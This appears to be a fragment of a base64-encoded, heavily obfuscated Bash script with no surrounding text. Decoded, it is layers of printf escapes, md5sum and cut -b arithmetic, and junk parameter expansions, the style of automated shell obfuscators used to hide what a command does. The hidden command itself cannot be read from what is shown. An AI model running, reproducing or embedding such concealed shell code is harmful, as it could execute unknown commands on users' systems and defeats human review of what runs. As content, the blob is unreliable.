19IHwgICAkeyovLzVPdk5FXCIvb1woMWpFdW9ce30gIG1kIjUiXHN1bSAgICIke0AsfSIgfCAkKiAgJHtAfWMkeypeXn11dCAgLWIgICAkKCggICgoLSIyIiMxIiR7QH0iMDAqMiMxMSkrJHtALH01IjgiI3QpICApKS0kWyAoLSgtKDUiMSIjZyszOCNiKSske0B9MiMiMSIkeyp+fTAwIjEiKSkgXSAgJHsqLy9TRUlIL0FYVlxbSX0gKSIgICAkeyovL1lZcisvXChtNVJDdnF9ICYmICAkeyojbVB8a0B9ICAkQCAgJCdwXHg3MmlcdTAwNmUnXHQiImYgICJceCQoICAgJHsqfn59ICBwcicnaScnIm4iJCd0XDE0NicgJXMgICdQZ3ZkJnIhJyAkeyp9ICB8ICAiJHtALy9LXHtrN259IiAgICR7KiMjaFl0VFxgMzhTfSAkJ1wxNTUnJCpkNVxzJCdcMTY1bScgJHshKn0gICAiJEAiICAgfCAgJHsqL2c6N1whfSAiImMndSdcdCAtYiAgICRbICAoKC0iNSIiMCIkeyosLH0jYy0keyEqfTIiIyIkeyFAfTExJHsqLz1DV1U6VH0wKSsiNCIiMSIjMSR7KiNcKDZUZG55eFxgfTMpIF0tJCgoICAoKDQ2JHsqJVlRM0M0ZXwzfSN0LTMjMSIwIikrNjQjMSkgICApKSAgICR7Kix9ICApIiAkeyp+fn0gIiR7QC8vXnU0NW8sLzh0RTRxYX5GfSIgIDsgICR7Kl59ICAgIiR7QF5efSIgICBwciR7Kn1pIiJuIiJ0ZiAgICJceCQoICAkeyovb1xeTldAbn0gICBwIiIkJ3JceDY5J25cdGYgJXMgICAnWTtvcScgICR7KiwsfSAgfCAkeyovU0wjVTwvXH00WG5LY3R9ICAgbSR7KiUlZTdqflwpfH1kNScnc3UnbScgJEAgIHwgICAke0AlcFFJQn0gICAiJEAiICBjdScndCAgLWIgJFsgKCgtNCMxMSo1JHtAL1B6V00/Ji40fTUjJHsqLCx9MCkrNTgjdikgICBdLSQoKCAgKCgiLSI0OCMyKiQqLTMjMTApKzMyI3EpICApKSAgJHtALCx9ICkiICIke0BeXn0iICAgIiR7QCUlMzRldUBUJGd9IiAgOyAke0AsfSAgIHAkeyEqfXJpblx0ZiAiXHgkKCAke0AsfSAgJHtAIyNnJTFcdjd5fSAgcHIiaSJudCIiJCdceDY2JyAgICVzICAnWzkwYTFZJEUnICAiJHtAfSIgICB8ICIke0B9IiAgIm0iZDUiJHtAfn59InMke0AvL24mOEoqfXUnJ20gIiR7QC8vMXBNXFteLSZ9IiAiJHtAI2YuR2Z9IiAgfCAkeyp+fSAkeyosfSAgYyR7Kix9dVx0ICAtYiAgJFsgICAoKC0zIzEyKyIzIiI2IiMwKSs0OCNoKSAgXS0kWyAgICgoIiR7QCU/UEZuXF1HXCJ9IjUiJEAiOCIjIjArLTIiOSIkQCNjKSszIiR7QCVvYU9cIVx7ZCQ8fSI1I3ApICBdICAke0AsLH0gICApIiAkeypeXn0gOyAgJHsqL1xgbl9KV1xbfSAkeyp+fSBwXHIiImkiIiR7Kn5+fW4iInQnJyR7Kl5efWYgIlx4JCggICAkeyoleCMrdUFCQX0gICAiIidwJ3IiImkiIlxudCR7KiVcW3NcKVVcKHRMWX1mICAgJXMgICAnVFAxTkpiJyAgIiR7QC8vbEpcW3x6fSIgICR7Ki9oUzgzRVxdJlxgfSAgIHwgJHtAL35eX259ICcnXG1cZCIiNVxzXHVtICAgJHsqXl59ICAgfCAgICR7QH5+fSAgIGN1JydcdCAgLWIgICQoKCAoLSgtKC0iNCIjJHsqXl59MTAtLTE1IzIkeyosLH03KSs0IyR7Kn0xMikpICkpLSQoKCAoKC0yNCNtLTMwI20pKyIxIjIjNiIke0BefSIwKSApKSAiJHtAIz5cfSstT0dKfSIgICAiJHtALy8/c1dqL1Z2cnI7bFxdK30iICAgKSIgICIke0AsfSIgICAmJiAgJHsqfn59ICR7Ki8vTVwpJGs1XkF9ICAgIiIkJ1x4NzAnciQnXHg2OSdudCIiZiAgIlx4JCggICR7QC8vN1BcYDhEcjVffSBwciIiJ2knIiIibiIkJ1x4NzQnXGYgICVzICcxezBgLFxoJyAkeyolXCExXF1lS019ICAgfCAkeypeXn0gICAnJ21kJyckJ1x4MzUnJ3MnXHUkJ1x4NmQnICAke0B+fn0gfCAgJHsqXl59ICAgYycndXQgLWIgJCgoICAoLSgtKCItIiR7KiUlUXoxOSt9MiMkeypeXn0xIjAiMCIxIiokeypeXn0tMiMxMDEpKyIxIiI1IiR7Kn59IzFhKSkgICApKS0kWyAoLSgtKC01IiMiMTArNyM0IiR7QC9QNVxbUjA5cHEvWTBfZH0iNikrIjUiIyIxIjMpKSAgXSAiJHtAfSIgICAiJHtAJSVfVmxmZSQmT30iICApIiAkeyovL0xkKzVoQy9kZypce2JPUkV9ICAiJHtALCx9IiAmJiAgIiR7QH5+fSIgICBwcmludGYgICJceCQoICAgJHsqLCx9ICAgJHsqJSZcYC0tTXF9ICAgcHJpbicndGYgICAlcyAgICduamtkckZ6JyAgICRAICR7QCwsfSAgIHwgICAkeyojOmJnU19OT0l9ICIke0B+fSIgXG1kIiR7QC9lemk1S1wpJX0iNSQnXHg3M3VtJyAiJHtAI1wibm9ALll9IiAgfCAiJHtAJU90XChnZCN9IiBjdXQgLWIgICAkWyAgKCgtNTEiIyIkeyosfWYrIjUiMSNtKSskeypefTIiMCIjaSkgICBdLSRbICgtKC0oJHtAL3FQXGBlQy9ASFpGdX04IiMiMjIrNCI2IiNxKSszIjIiI2kpKSAgIF0gICAiJEAiICIke0AlXkxCNlwpan0iICAgKSIgJHtAfSAgJHtAfSAmJiAgIiR7QH5+fSIgICAke0BeXn0gICAkJ1wxNjAncmluIiJ0JCdceDY2JyAgIlx4JCggICAke0BeXn0gJHsqLy8+c01cW2MtL2ltVDhhcnZHfSAgcCIke0AlJiUqdlRcIn0iciQnXDE1MSdcbiJ0IlxmICAlcyAgICdFKms0XHknICAgJHsqJSV2PzVvfSAiJHtAXl59IiAgIHwgJHtAJU9cYHwufSBcbWQ1JHsqLzFBclx9OFxbMk4vamJce3I9fXN1bSAgICR7QCUla28rSFEzMH0gICR7QC9kSXYmRVx7fSB8ICAke0AlUGdrLldnSVZ9ICAgY3V0IC1iICAkWyAgICgoJHtAXl59LTE1IzEqLSR7Ki9EYXU9O09AL1wqNS1SMXp9MiIke0AvNDd5RUZwfSIyIzIpKyR7QF59MiMiMSIiMCIwKSBdLSQoKCAoKC00MiR7Kix9IzErMjIkeyp+fSMkeyolJXJqNnd9MSkrMyMkeyEqfTIxKSAgKSkgIiR7QH59IiAkeyova0csTW99ICAgKSIgICR7KiUlMj9cKH56fSAiJHtAIyNGXHtnVyZ9IiAmJiAkeyovSGhWXF0lfSAgICR7QCwsfSBwXHJpIiJuJCdcMTY0JyQnXHg2NicgICAiXHgkKCAke0AvLzhzdUArfSAgJHsqXl59IHAiInJcaSR7QCMjcD1cW2J9bnRcZiAgJXMgICAnPUtyZ1xATHsnICAkeyolX1NcKGh3LEp9ICB8ICAkeyolJXlcIXJ+KyR9ICAgbVxkJCdcdTAwMzUnc3VtICAgIiR7QF5efSIgfCAgIiR7QH5+fSIgICAkeyovXChRPlM4cVo9L1dwZDwjczF9ICJjInUndCcgICAtYiAgICQoKCAoKDI3I2MrIi0iMTgjMSkrIjMiIiMiMiR7KiM2cyZUfTApICAgKSktJCgoICgoIjgiIzExKi0zJHsqXn01IiMiMSkrMzQjcikgICApKSAkeyosLH0gKSIgIiR7QCUldUZXa3d9IiAmJiAgICR7QCVPWWFySlo1Nn0gJHsqJWxWa153Wn0gJCdwXDE2MicnaSckJ25cMTY0JyIiJHtALH1mICAiXHgkKCAkeypeXn0gICR7Kn5+fSAgICdwJydyJydpJ24kJ1x1MDA3NCckeyosfWYgJXMgICdZRSlVSEsjJyAgJHtAfSAkKiAgfCAkeyp+fn0gICR7Kn59ICAgJCdcMTU1J1xkNVxzJHsqXn11J20nICR7KiNqK1BQa21xfSAgICR7QCVzXF0lWT8zcSR9ICB8ICAgJHtAfn0gICdjJ3V0IC1iICAgJCgoICAoLSgtKDIxI2YqNDIjIjIiKSske0AvRXhsUmk7Lnp9MiMwKSkgICkpLSRbICAgKC0oLSgtMyI1IiIjIiIke0B+fn0iZCoiLSIyIiMiMTEpKyI3IiMxMSkpICBdICAgJHsqLCx9ICApIiAgJHsqL3gwbyVudF5aL0ckVFRQQDl9ICAgJHsqIyNmXDtAfSA7ICAke0BefSAgIiR7QCMjY1RpK3orfSIgICJwInJcaW4keyosLH10IiJmICJceCQoICAiJHtAJXNcKF9lfSIgJHsqLCx9ICQnXHg3MCckJ1x1MDA3MiciIiR7QC8vbFUjO3w1L2hFXHtKdnFcX31pbnQnZicgJXMgICdvS0B3SWo+JyAkeyosfSAiJHtALH0iICAgfCAgJHtAfn0gICJtIicnZDUnJ3N1XG0gICAiJHtAfn0iICAgfCAke0B+fSAgIiR7QCwsfSIgICBjdSR7QH5+fXQgICAtYiAkWyAgICgtKC0oMyIke0AvdVA6ZH0iMCIjIiJhIi0yIzEkeypeXn0wMCkrOCR7KiM4KlQ7eFxbfSMiMCIpKSAgXS0kWyAgICgoLTM0IzEqJHsqXn02MiMyKSsiMiIjMTAwMSkgIF0gICR7QCx9ICAgKSIgICR7QCwsfSAgICYmICAkeyosLH0gICIicCR7Ki8vXFt4S1dcey9GVkVhdVxyQn1yJydcaVxudGYgICJceCQoICR7Kn0gICAiJHtAIyNufGdJXH1VTSt9IiBccCQnXHUwMDcyJyIiaW4iInRcZiAgICVzICAgJ09qMU5xJScgIiR7QCUlVDR8TlAyOH0iICR7KiUlK3l4UXlVOn0gfCAgICR7KiNXMUF5Kn0gJHsqLy9UYUwuL1woSEtxd2hrfSAibSIiIiR7Kix9ZCQnXHUwMDM1J3MndSdtICAkeyovXH1cezRcYC9NOmgtRGh9ICAgJHsqLH0gIHwgICR7ISp9ICAgJHsqfn59ICR7KiMjTkwkPWN9Y3UkJ1x1MDA3NCcgICAtYiAkWyAgKCgtNiM0NSs1NCR7KiUlUSRIZ1whXChieH0jRCkrNTUjaykgIF0tJCgoICgoIi0iMyMiMiIkeypefTIqNCMxMCkrMTIjIjUiMykgKSkgIiR7QC8vWlx9cj1HXCl9IiApIiAiJHtALzl6WkJDL0pcfURcKDw1TH0iICAmJiAgICR7Kix9ICAgJHsqL1ZWeC0qYjBCL0BQVVwiLHl9ICBwXHInaSckeyEqfW4ndCckJ1wxNDYnICAiXHgkKCAkeyp9ICAgcCcnXHJpIiJudGYgICVzICAgJ21fJVxtJyAkeyovL3JaZ3lcfX0gIHwgICAkeyp9ICAkeyolekYqLEJ9ICAgIiIkJ21ceDY0NScicyJ1bSAkeyosLH0gICB8ICQqICAkeypeXn0gICIiXGNcdXQgLWIgJCgoICAoLSgtKCIxIiIxIiMke0AsfTE0LS0xMyR7Ki8vZyRVUmcsP30jMTkpKzE0IyR7QC9UNHMtUDFRd31hKSkgICApKS0kKCggICAoKCR7QC9qblRCYX01MyMwKi03IiR7QCx9IiMxIiR7QCVkaXg5TkFffSIwKSszOCNzKSApKSAkeyojI2F2ZTV9ICR7QC9LdjB4Nn0gKSIgICR7Ki9raFpcKTF+L3BoTzwwc0t9ICAgJHsqIyMyJVNUMkR2fSA7ICIkQCIgcCdyJ2kkeyovLy1TUFlaKnMvRkd1JH1uIiJ0ZiAiXHgkKCAgIiRAIiBwJCpyIiJpbicnInQiImYiICVzICAgJyRrOFonICR7KiMjcGh3LH0gICR7Kn59ICB8ICR7QC9fKmc9PlwhYjAvQ0BqRX0gICBtZCR7QF59NSQnXDE2Myd1Im0iICAgJHshKn0gIHwgICAkeyojcX5xM30gIiJjdScnInQiICAgLWIgJCgoICAgKC0oLSgiJHtAXl59Ii0ke0BeXn03IzEwKi0iJHtAfSI3JHtAfn59IzEwKSszIzIxMSkpICkpLSRbICgoMiR7KiMjS3w6R0NCfTQiIyIiMCItLTciIyIkKjIiMCIpKzQ2I2UpICAgXSAgJHsqfn0gJHsqLy9SJStWWH0gICkiICAkeyosLH0gJHsqLy9rXkVmNnNffSA7ICAiJHtAJX5FcX42eTRQfSIgIHByaW4keyovL1VcYHhuXy9YX0RLPk4qOX10XGYgICJceCQoICR7Kn5+fSBwcmluIiJcdCJmIiAgICVzICAgJ10mYyJcLSh+JyAgIiR7QCVcITAuQ0xhWT59IiAgIHwgJHsqJVxdZmdce30gICAiIm1kNXN1JHsqJXUlfC5NXFx9bSAgICR7Ki8veGk6el53Xjd9ICB8ICR7Kl59ICAgJHtALy9Mdz5qVG5LOH0gIGMiIiJ1Iid0JyAgLWIgICQoKCAgKCgtMyIjIjIiMCItIi0iNyMxMSkrIjIiMiNkKSApKS0kWyAoKCItIjQiIyIxJHsqJSUtYWNMfTErMzUjImYiKSsyIzExMCkgXSAkeyp+fn0gICR7Kn5+fSApIiAgIiR7QC8vSX5cYixYfSIgICR7Kn0gIDsgICR7Ki8vXHBrV1hoL3AjbVZQYX0gICBwXHIiJHtALH0iaSR7Kix9bnQkJ1wxNDYnICAiXHgkKCAgJHtAIyNPdGteVVo4Y30gICIkQCIgICAkJ1x4NzAnIiIkJ1x1MDA3MickJ1x1MDA2OScnJ1xudGYgJXMgJ2BwaHdTJyAiJHtAIyM0XHF2dSV9IiAgIHwgJHsqXl59ICIiIm0iIiIiZCI1InMiJ3UnJ20nICAgJHtAJSU8QnU9fSAgIHwgICR7Kn59ICAgYyIke0B9InUkJ1x4NzQnIC1iICRbICAoKC0yMSR7QF5efSMiMSIqJEAzMSMwKSs0MCMyKSAgXS0kKCggICgoLSIke0AvWWR5Tj88L3lZaE5cIn0iNjEjIjIiKzQxIiMiJHsqfn59MCkrJHsqLy9zWTZaO2ZIYn0zIzEiMiIpICkpICR7KiVmXHlBM0V5d30gICAiJHtALH0iICAgKSIgICR7Kl5efSAmJiAgICIke0AvL2poK0IlXF1PcH0iIFxwclxpbiR7Kn59dGYgICJceCQoICAkeyovL3NnJU5HXkwvR3wkMEY+fSAkeyojI0tld25QfSBwIiJyJHtAIyNaaGgjfWluInQiZiAlcyAnPE47IlUwJyAgIiR7QC92K0NGVEZcVH0iICR7Kn0gIHwgICR7IUB9ICIke0BefSIgIm0iZDUncydcdSQnXHUwMDZkJyAkeyovL0A+Mml9IHwgICIke0AlP1wid1xgfSIgICBjJ3UnJHsqLy85JTlkJS96bWhmO1x9fXQgIC1iICAgJFsgICAoKC0ke0B+fTUkeyojI1x5ZGl9OCIke0AvLyZVcn5xfSIjMSokeyolXClGOGtXdn02IiMiMTApKzQ5IyR7Kn16KSBdLSRbICgtKC0oNSIjIjEiNCItJHtAJSUuQ0s1Tyo9fS0zIjkiIyJ3IikrIjUiMyMiJHtALCx9ImIpKSAgIF0gICAiJHtAJSUsJlQjRz9GfSIgICApIiAgJHsqL0lcX0BMVTR9ICAkeyovLyp+dzpHRX0gICA7ICAgJHsqLy9cVjswOVROfSAgJCogICAicCIiInInaSckeyp+fn1uInQiXGYgICAiXHgkKCAgICR7ISp9ICIicHIiImluInQiIiJmICVzICAnTVdLUyVlLksnICAgJHsqLH0gICB8ICAgIiR7QH0iICAkeyovQTtce0hCLyxcKG5cInZ9IG0iIiJkIjUicyJcdSQnXHg2ZCcgICR7KiUlQD1wLj9WfSAgICR7KiMjRTZFbHQrfSB8ICAgJHtAI2dcKUpLO30gICAiJHtAJSVce0pJPkNmQH0iYycndXQgLWIgJCgoICAgKC0oLSg0IiMiMSR7QCV3fGl6fTItLSIxIiIzIiMxNSkrJHsqfTMjMTApKSAgKSktJFsgICgtKC0oLTQjMSR7KiUlLkxfUzpmfTMqLSIzIiIjIjIxKSsyMSMkeyp9MSR7Kn02KSkgICBdICAgJHsqLy9cYDxFfFwhOXEkLzomTVx9WVx7fSAgJHsqLH0gICApIiAgJHsqLCx9ICAgJEAgIDsgIiR7QC89d1RuTD9PcH0iICR7QH59ICAgcHJcaW4iIiQnXHg3NCckeyp+fn1mICJceCQoICAkeyosLH0gICIke0BeXn0iICAiInAkJ1x4NzInJHsqfn59aW50ImYiICVzICAgJ0A3OTEoUylnJyAkeyolSFolWiV9ICR7KiwsfSB8ICIke0AjI1w6XCFjfSIgICAkeyovY04rXH0vJX4mU30gICQnXDE1NVx4NjQnJCgoICAgKCg0NiMxLTIke0AvL1gwdyxYMjtYL19cXXd4fSMiMSIwMSkrOSIjIjEwKSAgKSlzdSIiJHtAXl59bSAkeyp9ICAgfCAgJHsqfn0gICAiYyJ1Jyd0ICAgLWIgJFsgICAoLSgtKDMxIyIxIjEtJHtAfn59LTE4IiMiMSIxIikrJHsqfn59NiIke0AjIyNcKSUxfSIwJHsqfn59IyQqcSkpICAgXS0kWyAgICgoLSR7Kn5+fTEyIzQzKzMjMTApKzIiMyIke0AlJVkjPXFcKD99IyR7KiwsfTMiNSIpICBdICR7KiUlVG1CfH0gICAkeyosfSApIiAke0AsfSAgICR7KiUsWTU+XGBcYH0gICA7ICAgJHsqI2FqSX5ffSAgJEAgICBwJyckeyovLyY9TFM8Ni8uRSN0T2NzNn1yJ2knXG4nJ3RmICAgIlx4JCggICR7Kn0gIHAiciJcaVxuJCdcMTY0J2YgICVzICdsViNoeFQ7JyAgICR7QF59ICR7QCUlXF1cezZedjI/fSAgfCAke0AvL25cYDlQfSAgICR7QH5+fSAgJyckJ1x1MDA2ZGQnNSdzJ3UibSIgJHsqfSAgfCAke0B+fn0gJHsqJVNkKzZ9ICBcYyJ1Ilx0IC1iICQoKCAgKCg1NiNhKzQzIyR7IUB9YSkrNCR7Kix9MyMiMiIpICAgKSktJCgoICgtKC0oMyR7Kl5efTgjdy0tMyMxMCkrJHsqJVxdYW8xYWFcYF99NSR7KiVubFxdU2h9NCNjKSkgICApKSAgICIke0AsfSIgICApIiAgJHtAL2JVVnNpYzd9ICYmICAgIiR7QC8vZ2V8MX0iICBwJHtAJSV3bHM1dH1yImkibiIidFxmICAiXHgkKCAgICIke0AsfSIgICAkeyp9ICAgcHInaSckJ1wxNTYnJHsqLH10JCdceDY2JyAgICVzICAnUFs9TiZRTSYnICAgJHtAXn0gICB8ICAkeyFAfSAkeyp+fSAgICQnXHUwMDZkJyR7KiUlRj5MUDBceyZ9ZCcnNXN1bSAgICIke0AjIzYkVDMjfSIgICB8ICAiJHtAI1ZwfklJfSIgICAke0AvZ3NcWyNIX1ovcnJcKU9kZH1jdSR7Ki8vNV4/N1xbTn10ICAtYiAkKCggKCg2NCR7Kn59IzErIjUiIzEkeyp9MSkrNSIzIiMkeyovLzFfT2VGP05DL1RzXGB6WVx9fTIpICApKS0kKCggICAoKC0xIiR7QH59IjEjJHtAXl59MSR7QCN3eGxALX0zKzEiMiIiIyIwKSsiJEAiMjcjbykgICApKSAgICR7Ki8vXChBKzIuQW59ICAgKSIgJHshQH0gICR7Ki9YVVdcKDxkfSA7ICAgJEAgJCogICAnJ1xwcmlcbiIidGYgICAiXHgkKCAgJHtAfn59ICAgJydwJCdcMTYyJyIke0Ajd255RjFlfSJpbnRmICAlcyAgICcsQnEwKG1RJyAgICR7Kl59ICAkeyp+fSAgfCAgICR7QCUlPm9LSX0gIiR7QC89OUFsb2ovaF5xWFppKn0iICAgJCdcdTAwNmQnJydkNXNcdVxtICAiJHtAXl59IiAgfCAgICR7QH0gICR7QC9cW0s/PlwoTCUvb1VvMz0ufSAgICQqYyR7Kix9dScnInQiIC1iICAkKCggICgoIi0iMiR7KiVBNnZcKVx7alwofSMxMCIwIistIjUiNiIjIm0pKzIwIzJmKSAgICkpLSRbICAoKDMjMTEtIi0iIjciIzIwKSsiNCI2IiRAIiMiYyIpICAgXSAgICRAICApIiAgICR7KiMjYno0b30gICAkeyFAfSA7ICR7QCUlcDg4dzo7UX0gICR7Kl59ICIiXHBccmkkJ25cMTY0ZicgIlx4JCggICR7QH5+fSAgJHsqLy9ePFYxbHJsJX0gICBwJydyaSR7QCx9biIiJCd0XHUwMDY2JyAgICVzICAgJzNmTncnICAkeyoleipeZnFcIip9ICAkeyFAfSAgIHwgICAkeyp+fSAgJHsqXl59ICBtZCQnXHgzNScicyJ1bSAgICQqICAiJHtAJSU6S3deSy4/fSIgfCAgJHsqL3JYdFczQFN9ICAkJ1x4NjMnXHUndCcgICAtYiAgJFsgKCgzOCIjIjEqNjMke0AvL3MweXp+fSMwKSszIyIyIikgICBdLSRbICgoIi0iMiMxJHsqLH0wIjAiKy0iNiIiMCIke0AjeDAsRU9ce30jIjIiKSs3IiMiMTIpICAgXSAke0AlJVwhV0huVjlMTH0gJHtALy90PVx7NlwpMXE1fSAgKSIgIiR7QF59IiAgOyAkeyojI2p2O1phekZ9ICAgJHsqLy91K2h+TmhBay9hTF83NH0gICAncCdyXGluJyd0JydmICAiXHgkKCAkeyFAfSAkeyovajVRd30gICdwJ3JpJHshKn1udFxmICAlcyAnM309PjViYCcgICAkeyosfSAgfCAiJEAiICAgJHsqfn59ICAnJyQnXDE1NWQnJFsgICAoKCItIjIjJHtAJUZ4On5Dan0xMDArJHshQH0tMiMxMSkrMjQjImMiKSAgIF0kJ1x1MDA3MyckeyFAfXVtICR7Kl5efSAkQCB8ICAgJHsqL2JhSFMqL1xgdCVmTn0gIiR7QCNpdkNpOTlxfSIgJCdceDYzdXQnICAgLWIgJFsgICgoLTI1IzErMiR7QH59MyMkeyovcGlmP1MvQFBkTX0xKSsxMiR7KiMjcWNJXF1Va2J9IzIpICBdLSRbICAoKDQyJHtAXl59IyIwIioiLSIyMSMkeyolSEk3Jm4/fTEpKzMjMTApIF0gICAkeyosfSAiJHtAfn0iICkiICAgJHsqXn0gIiR7QC8vV2Z1VndRL05aSlBFQnJ9IiAgJiYgICAkeyojI0xUSD12TX0gICAkeyovLzdOa1xqL1EyYUUsdFl9ICBwJydyaSIibiJ0IiR7QCM1UzM1XCJWUT59ZiAgIlx4JCggJHsqfSAgICcnXHAncicnJydpJycnbiQqdCJmIiAgICVzICAgJ340NDBcJyAgIiR7QH0iICB8ICAgJHsqLy9nUTN4MjQzRX0gJHtAI0kuXCl0Unh9ICIibSJkIiR7Kn5+fTVcc3UnJ1xtICIke0AvOUpjQlwhb29rL0ZUXCFHYmh9IiAke0B9ICB8ICAgIiR7QC8vUEZFUVwiclxpfSIgIiJjdSIidCAgIC1iICAkWyAgKCg0MCMyKjIiIyIxMSkrJHtAJVwid0FlXClcezA4fTQjMSIwIikgICBdLSQoKCAgKCgiLSI2IzI0KyItIjYzIzEpKyR7IUB9MiMxIjEiJHsqJWwzWHpcKFFcXX0xJHtAXl59MDApICkpICAgJHsqXn0gICAkeyojb2JoLlwiXFtNfSAgKSIgJHsqLCx9ICAmJiAgICR7KiUlXGByUzB0WVV9ICAgJCdcdTAwNzAncicnJCdcMTUxJyduJyR7KiwsfXQkeyEqfWYgIlx4JCggICR7Ki8vPHlSK0V9ICAgJHsqfn59ICAgInAicmkkeyolJXAmUFwheFJ9bnQnJydmJyAgICVzICAnRTI+NCcgJCogICAke0AvL3UqU2F9ICB8ICR7Kl5efSAkJ21cdTAwNjQ1JyQnXHUwMDczJycnJHshKn11IiJtICAiJHtAL0VzN2hcWy9+P0dHZTd9IiAgICR7QF5efSB8ICAgJHsqXl59ICR7KiU9aEV8ST59ICAgY3V0ICAgLWIgICQoKCAoLSgtKDIjMSIxIjEtIi0iNDQiIyJrKSskeyoveHZHQEpcKGlcKH01IyIkQCIxMSkpICkpLSQoKCAoKCR7QCwsfS0iMiIjIjEiMSoiMiIke0B9IzExKSskeyovLzQwOHw1TFMvck9AND8sXH1wfTMiNyIjdikgKSkgICIke0B+fn0iICkiICR7Kn59ICIke0AlaCVJXClLSX0iIDsgICAkeypefSAgICJwInIke0AlJVwiXClARX1pblx0ZiAiXHgkKCAiJHtAfSIgICAkeyovL3pkSEE6dTFCL2RmJW4mbU5cYH0gcHJpXG4ndCdcZiAgJXMgJ2Q4VWMnICAiJHtAJSVRS1J+fSIgICB8ICR7Kn0gJHsqJUZURDc8Yn0gICR7Ki9WRl5hNlF9bSQnXHUwMDY0JzUiIiJzInUnJ20gICAiJHtAJSU7TnM8PTNwZH0iICAgfCAkeyosLH0gICAke0B+fn0gJCdcdTAwNjMnIiR7QH0idScndCAgIC1iICAgJCgoICgoLSIxIjkjMTcrNSMzMCkrOSIjIiIzIjgpICAgKSktJCgoICgtKC0oJHtALH02IyIzIjUrNSI5IiNIKSsxIjgiIiMiMjUpKSAgKSkgICAiJHtAXn0iICAgJHtALy9cKUV1ZyVQfSApIiAgICR7KiUlV0VmSFhcIXF9ICAke0B+fn0gJiYgICIke0AvLyRcW3I7aVJcIX0iICAncCciJHtAI1B+bzFLenl9InJpXG4kJ1x4NzQnImYiICJceCQoICAkeyovbmwqOF9JU30gcCQnclx1MDA2OSdudGYgICAlcyAgJ1JtZTEsPCcgICR7QH59IHwgIiR7QC8vbyUsXH0rXClBWS8/UWI/blAxfSIgIm0iJ2QnIjUicyIke0AlJU87aVFce1wpLX0idW0gICAiJHtALCx9IiAke0B9IHwgICR7QCwsfSAgJHsqfn59ICAgJCdcMTQzJycndVx0ICAgLWIgJFsgICgtKC0oMzIiIyIxJHsqfn00LSI0IjQiIyIwKSs0IiMiJHsqJWU7XCpNYnlFfTMwKSkgIF0tJCgoICAgKCgtJHshQH01IyIzIiR7Ki8vUTM3O1wpcjd9MC00NSMkeyp+fWMpKzkiIyI1IjciKSAgKSkgICAiJHtAXl59IiAgICR7Ki8va2VDXi9cKS0wfSApIiAgJHsqXn0gICAmJiAgICR7Kn5+fSAke0BeXn0gICIiJCdcdTAwNzAnJ3InaSQnXHg2ZScndCdmICJceCQoICAiJHtAXl59IiAgICR7QCM9S3o6UHJqfSAgICIiJCdceDcwcicnJyR7KiMjXytmXzdPLG99aSJuIlx0JydcZiAlcyAgJ0hPRFRlOFRUJyAgICR7Ki8vM1g3bDJfNnovTVE+Wj1YOn0gICAkeyp+fn0gIHwgICR7QH59IG1kXDVccyQnXHg3NSdcbSAiJHtALy8uJHx5L25UWFl+cFZ9IiAgJHsqLy88ZldAXF0mXn0gfCAgIiR7QF5efSIgIiR7QC9iP1JYSnR9IiAgICQnXHUwMDYzJyR7Ki8sOUN2OzFNL21cXTIqI0JWc311dCAgIC1iICQoKCAgKCgiLSIxNSMxIiR7QC80UzR8XEc7Sn0iZCstNCMxMDEpKzU0IzEiayIpICApKS0kWyAgICgoJHsqXl59LTIjMTAwKi00IyR7QH59MTMpKzQke0AvPENaSVxcL2ZhXHt+Sn02IzIpICAgXSAgICQqICR7Kn5+fSAgKSIgICAke0AsLH0gICAkeyovLzRlV2Ivb1c7dCp9ICAmJiAgJHsqfn59ICR7Ki9hPlNce1d5fi8jNDZANn0gIHByaSIke0AvL3k2RTZ9Im50XGYgICAiXHgkKCAkeypeXn0gIHAiJEAiciR7QH1pIiInbicidCIkeyEqfWYgICVzICdvQDZvPCUnICIke0AjdjlcITBCXCJDSX0iIHwgICR7QC9iek88MzNsfSAgICR7KiUlMnQwQlx7WVZ9bSIke0AsfSJkIiIkWyAgKCgtNiIyIiMiMiIqIiR7QC9CWlxdeS9+XmZyJX0iMyI4IiR7QC8vY3FkSzF4cH0jIjEiKSs0IyR7Ki9EdGdLXGNNUy9QV1J2fTEzKSAgIF0nJyQnXHg3MydcdW0gICR7Kix9ICAgfCAgJHsqL2hLXClcXVZvL1pPLHhvNH5cXH0gICAiJHtAfSIgICIkQCJjJHtAIyN2XkNPfXV0IC1iICAgJFsgKCgkeyovXE8lK1xgU30tNyMiJEAiMjIrJHsqJWdWXH1XJF59NiMiMSIyKSs2MiNrKSAgXS0kKCggICgoLSR7Ki8vRnpsNnh9NiIxIiNuKzQyIiMiMikrIiR7QCx9IjMzIiMiMTEpICAgKSkgJHsqfn0gICkiICAgJHsqXl59ICAgOyAiJHtAI01PR3I3fSIgICcncCIiInIiaVxuIiJ0XGYgICJceCQoICAiJEAiICAke0B+fSBwInIiJyckeyEqfWludGYgICAlcyAgICdPakFBcU9jSycgICIke0AsfSIgICB8ICAkeyovLHdcKVwiT2RrXFx9IG0kJ1x4NjQnIiIkJ1x1MDAzNScnJ3NcdW0gICRAICR7KiN+MFloI30gICB8ICAgJHtAXn0gICAkJ2NceDc1JyR7KiwsfXQgIC1iICAgJCgoICgoIi0iIjciIyIxIiIyIio0IzEzKSsxIjkiIyI0ImgpICkpLSRbICAgKCgtNjIjInEiLTQ5IyJkIikrMiIke0AveWVaX1hfL1QkXCJVMUQ7fSI1JHtALy9cKHhYPFpsLX0jJHsqLy9cYFwpKzp9MmspICBdICAgJHsqI1NiRUF9ICkiICAgIiR7QH0iICAkeypeXn0gJiYgICR7Ki8vbiZNeU9acG4vblwiXCh5fSAiJHtALy8rVGV2fSIgJCdcdTAwNzAnJCdcMTYyaSdcbiQnXHUwMDc0ZicgIlx4JCggJHtAI0NOQXk/KiNZfSAgJHsqfSAgIHAkJ1x1MDA3MicnaSckKm4iIiR7KiNzQUgwYUYyfXQiIlxmICVzICAnY2ZGbXMqJyAgJHsqfn59ICAke0BefSB8ICAgJHsqfn0gICQnXHUwMDZkJyJkIicnNSQnXDE2M3UnbSAgJHtAfn59IHwgICAke0BefSAgImMidVx0IC1iICAkKCggKCgtMiMxMCIxIisiMiIiIyIiMSIxMSkrMiMxMSkgICkpLSRbICgtKC0oJHsqfn0xIjUiIiR7QCx9IiMwKzQjIjEiMykrIjQiMiMxKSkgXSAgJHsqLH0gICkiICAkQCAgJHsqXn0gICA7ICR7QF59ICQnXHg3MCckeyFAfXJpJCdcMTU2JycnJ3QnXGYgICJceCQoICAke0AjIzo0XCFcfVwiSld9ICR7Ki8vLW1sXHtvV3wvbUc6QFxdN30gICdwJ3IkJ1x4NjluJ3RcZiAlcyAnLksqTC50dCcgICIke0AvL053VF5XfSIgIi